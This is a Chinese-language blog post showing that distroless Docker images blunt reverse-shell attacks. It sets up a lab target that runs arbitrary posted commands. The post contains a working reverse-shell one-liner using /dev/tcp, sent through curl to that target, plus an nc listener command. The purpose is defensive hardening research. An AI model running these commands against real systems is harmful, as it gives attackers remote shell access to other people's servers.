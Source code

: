 ```yaml
---
layout: post
title: 学习 shell 反弹实现， 优化 Docker 基础镜像安全
categories: [docker, security]
description: 优化精简容器镜像， 降低 shell 反弹攻击风险
keywords: docker, dockerfile, security, shell 
---
```


# 学习 shell 反弹实现， 优化 Docker 基础镜像安全

天天都在说优化 Dockerfile。 到底怎么优化， 优化后的检验指标又是什么？ 没有考虑清楚行动目的， 隔空放炮， 必然徒劳无功。

笔者最近准备在 CI 上增加安全检测， 在分析案例样本的时候， 找到了比较流行的 struts2 漏洞， 其中 [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md) 的利用方式就是在 POST 请求中添加恶意代码或命令。

如 Demo 片段所示。

```xml
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```

## 0x01 确认目标

既然可以远程执行命令了， 那么如何拿到服务器权限也就是必然考虑的事情， 如 `webshell` 、 `shell 反弹` 等 。 

在翻阅的搜索引擎靠前《常见 shell 反弹方式和利用》的文章之后，总结如下。 

**shell 反弹** 即 **使用 `1. 任意方式` 将 `2. /bin/sh` 通过 `3. 网络连接` 方式连接到 `4. 攻击机`**

其中 **任意方式** 常见为:

1. 使用各种 `程序命令` 创建 shell 网络通信
2. 使用各种 `编程语言` 即使构造 shell 网络通信， **对于解释型语言而言，即为依赖运行环境**。
3. 使用 `操作系统中的设备文件` 创建 shell 网络通信。

以上 4个 条件中， 在预设环境中， 能管理的就有 `1. 任意方式` 和 `2. /bin/sh`。 
优化镜像目标已经很明确了， 精简环境， 减少 `1. 和 2.` 的存在


## 0x02 环境准备

根据目标， 设计了一个靶机， 功能是将 POST 的命令直接转换成命令执行。 代码已经放在 Github 上， [任意命令执行漏洞靶机](https://github.com/tangx/vulhub/tree/master/cmd/shell/reflect2) 。

并产出了两个容器镜像。

+ `doslab/vulhub-reflect2:latest` 使用 debian 官方镜像
+ `doslab/vulhub-reflect2:static` 使用 debian 精简镜像， 更多信息参考 [GoogleContainerTools/distroless](https://github.com/GoogleContainerTools/distroless)  


### 0x02.1 部署靶机

```bash
## debian:buster
docker run --rm -d -p 8081:8080 doslab/vulhub-reflect2:latest

## distroless/debian-static10
docker run --rm -d -p 8082:8080 doslab/vulhub-reflect2:static
```

### 0x02.2 利用方式

向接口发送 JSON 数据， 方式如下

```bash
curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
    "command":"ls",
    "args":["-l","-a","-h"]
}'
```

## 0x03 实验开始

### 0x03.1 lastest 靶机

1. **攻击机** 执行 `nc` 命令 监听端口， 等待反弹连接。
```bash
nc -nvlp 4444
```

2. **攻击机** 执行 POST 命令， 进行恶意请求。

```bash
# latest
curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"bash",
    "args":["-c","bash -i >& /dev/tcp/192.168.233.3/4444 0>&1"]
}'
```

3. **攻击机** `nc` 所监听端口被成功访问， 进入容器 bash 界面。 如图所示

![shell-reflect2-success.png](/images/post/2020/12/03/shell-reflect2-success-with-debian.png)


### 0x03.2 static 靶机

1. **攻击机** 准备监听端口 `4444`

```bash
nc -nvlp 4444
```

2. **攻击机** 执行 POST 命令， 进行恶意请求。

```bash
# static
curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"bash",
    "args":["-c","bash -i >& /dev/tcp/192.168.233.3/4444 0>&1"]
}'
```

3. POST 请求报错， 返回信息， `bash` 不存在。 如图所示

![shell-reflect2-failed.png](/images/post/2020/12/03/shell-relect2-failed-with-static.png)


## 0x04 结论

在使用了 **google distroless 镜像** 之后， 在一定程度上阻止了服务漏洞带来的 **常见 shell 反弹攻击** 。 尤其是在类似 golang 这类编译型的语言， 运行环境需求相对简单。 

所以， 在管理 Dockerfile 时

1. **选择或制作简单且符合业务需求的镜像**
    + `1. 可被利用的漏洞或方式越少`
    + `2. 镜像更小， 分发更快`
2. 干净整洁的 docker context 环境
3. 合理的命令层级顺序， 以达到更多的 layer 复用。

其他 Dockerfile 使用探究， 可以阅读 
+ [使用 Dockerfile 构建镜像注意事项](https://tangx.in/2019/03/26/how-to-build-a-image-with-dockerfile/)
+ [Dockerfile 中 ARG 的使用与其的作用域探究](https://tangx.in/2020/11/06/dockerfiles-args-scope)
+ [多阶构建](https://tangx.in/2018/10/30/docker-multi-stage-build/)

## 0xGG 参考文档

+ [反弹Shell原理及检测技术研究](https://www.cnblogs.com/LittleHann/p/12038070.html#_label0)
+ [linux各种一句话反弹shell总结](https://www.anquanke.com/post/id/87017)
+ [反弹shell利用方式](https://www.cnblogs.com/ktfsong/p/11265734.html)


+ [docker security](https://foxutech.com/docker-security/)

